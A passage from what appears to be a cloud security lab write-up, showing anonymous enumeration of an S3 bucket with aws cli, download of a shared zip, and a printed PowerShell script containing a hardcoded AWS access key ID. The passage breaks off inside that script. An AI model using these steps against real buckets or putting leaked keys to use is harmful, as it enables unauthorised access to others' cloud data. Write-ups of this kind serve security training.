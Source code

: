 We can try enumerating with [aws cli](https://cloud.hacktricks.wiki/en/pentesting-cloud/aws-security/aws-services/aws-s3-athena-and-glacier-enum.html#enumeration)
```
└─$ aws s3 ls s3://dev.huge-logistics.com --no-sign-request
                           PRE admin/
                           PRE migration-files/
                           PRE shared/
                           PRE static/
2023-10-16 23:00:47       5347 index.html
```

We can list the directories, but we can't list directories
```
└─$ aws s3 ls s3://dev.huge-logistics.com --no-sign-request --recursive

An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied

```

The only directory we can list is `shared`
```
└─$ aws s3 ls s3://dev.huge-logistics.com/shared/ --no-sign-request
2023-10-16 21:08:33          0 
2023-10-16 21:09:01        993 hl_migration_project.zip

```

Let's download the archive
```
└─$ aws s3 cp s3://dev.huge-logistics.com/shared/hl_migration_project.zip . --no-sign-request
download: s3://dev.huge-logistics.com/shared/hl_migration_project.zip to ./hl_migration_project.zip
```

Unzip and check the content
```
└─$ unzip hl_migration_project.zip 
Archive:  hl_migration_project.zip
  inflating: migrate_secrets.ps1  
```
```
└─$ cat migrate_secrets.ps1 
# AWS Configuration
$accessKey = "AKIA3SFMDAPOWOWKXEHU"
$secretKey = "<REDACTED>"
$region = "us-east-1"

# Set up AWS hardcoded credentials
Set-AWSCredentials -AccessKey $accessKey -SecretKey $secretKey

# Set the AWS region
Set-DefaultAWSRegion -Region $region

# Read the secrets from export.xml
[xml]$xmlContent = Get-Content -Path "export.xml"

# Output log file
$logFile = "upload_log.txt"

# Error handling with retry logic
function TryUploadSecret($secretName, $secretValue) {
    $retries = 3
    while ($retries -gt 0) {
        try {
            $result = New-SECSecret -Name $secretName -SecretString $secretValue
            $logEntry = "Successfully uploaded secret: $secretName with ARN: $($result.ARN)"
            Write-Output $logEntry
            Add-Content -Path $logFile -Value $logEntry
            return $true
```